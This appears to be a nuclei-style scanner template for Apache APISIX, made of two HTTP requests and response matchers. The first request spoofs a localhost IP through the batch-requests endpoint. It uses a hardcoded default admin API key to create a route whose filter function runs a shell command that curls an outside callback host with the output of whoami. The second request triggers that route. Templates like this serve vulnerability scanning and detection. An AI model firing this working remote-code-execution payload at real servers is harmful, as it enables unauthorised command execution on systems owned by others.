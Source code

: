 ## Requests

### Step - 1

```
POST /apisix/batch-requests HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{
  "headers":{
    "X-Real-IP":"127.0.0.1",
    "Content-Type":"application/json"
  },
  "timeout":1500,
  "pipeline":[
    {
      "method":"PUT",
      "path":"/apisix/admin/routes/index?api_key=edd1c9f034335f136f87ad84b625c8f1",
      "body":"{\r\n \"name\": \"test\", \"method\": [\"GET\"],\r\n \"uri\": \"/api/{{randstr}}\",\r\n \"upstream\":{\"type\":\"roundrobin\",\"nodes\":{\"httpbin.org:80\":1}}\r\n,\r\n\"filter_func\": \"function(vars) os.execute('curl {{interactsh-url}}/`whoami`'); return true end\"}"
    }
  ]
}

```

### Step - 2

```
GET /api/{{randstr}} HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

```

### Matchers

**Type - word**

- part - body_1
- words
  1. "reason":"OK"
  2. "status":200
- condition - and

**Type - status**

- status
  1. 200
